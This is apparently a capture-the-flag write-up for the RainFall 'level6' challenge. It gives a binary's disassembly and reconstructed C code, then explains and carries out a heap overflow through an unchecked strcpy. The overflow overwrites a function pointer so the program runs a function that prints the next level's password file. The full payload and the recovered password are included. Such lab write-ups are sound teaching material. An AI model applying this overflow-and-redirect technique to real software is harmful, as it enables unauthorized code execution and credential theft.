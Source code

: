 # Source Code

<table  style="margin: 0 auto;">
  <tr>
    <th>Assembly Code</th>
    <th>C Code</th>
  </tr>
  <tr>
    <td>
      <pre><code class="language-asm">
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret

Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret

Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
      </code></pre>
    </td>
    <td>
      <pre><code class="language-c">
void n() {
  system("/bin/cat /home/user/level7/.pass");
}

void m() {
  puts("Nope");
}

int main(int argc, char* argv[]) {
  void *func;
  char *buff;

  buff = malloc(64);
  func = malloc(4);
  *func = m;
  strcpy(buff, argv[1]);
  (*func)();
}
      </code></pre>
    </td>
  </tr>
</table>



# Exploring

First look, we can see that `strcpy` vulnerable to buffer overflow, which is copies `argv[1]` to `buff` without checking if the input exceeds the allocated memory size of destination `buff`.

Second, we have two allocated memory blocks using `malloc`, the first one `buff` with size **64**, second one is `func` with **4** of size.

the blocks are allocated in memory in alligned way like bellow:

```
             H          e              a          p
─────────────────────────────────────────────────────────────────────────────────────
   |         buff (size 64)        |          |  func (size: 4) |
─────────────────────────────────────────────────────────────────────────────────────
   ^                               ^          ^                 ^
 buff                           buff+64      func             func+4
```

`strcpy` can copy more than `64`, reaching `func` block.


# Exploting

Before coping `argv[1` to `buff`, they assign `m` function address to `func`, after that they call back to `m` from `func`.

Yes, we can override `func` by exceeds the `buff` size which is **64**, with malicious function, in this case is `n` that read **level7 .pass** file for us.

Get offset of `func` from `buff`.

```
python3 tools/cyclic.py -g 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A


   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
=> 0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.

gdb-peda$ p $eax
$2 = 0x41346341


python3 tools/cyclic.py -o 0x41346341
Offset found at: 72
```

So the offset is **72**.


The Payload format be like:

```
a * 72 + 'address of n'
```

Address of `n` is `\x54\x84\x04\x08`.

The final Payload:

```
python2 -c "print 'a' * 72 + '\x54\x84\x04\x08'"
```

Output:
```
level6@RainFall:~$ ./level6 `python2 -c "print 'a' * 72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We got the level7's password, let's move on to the next challenge `level7`.

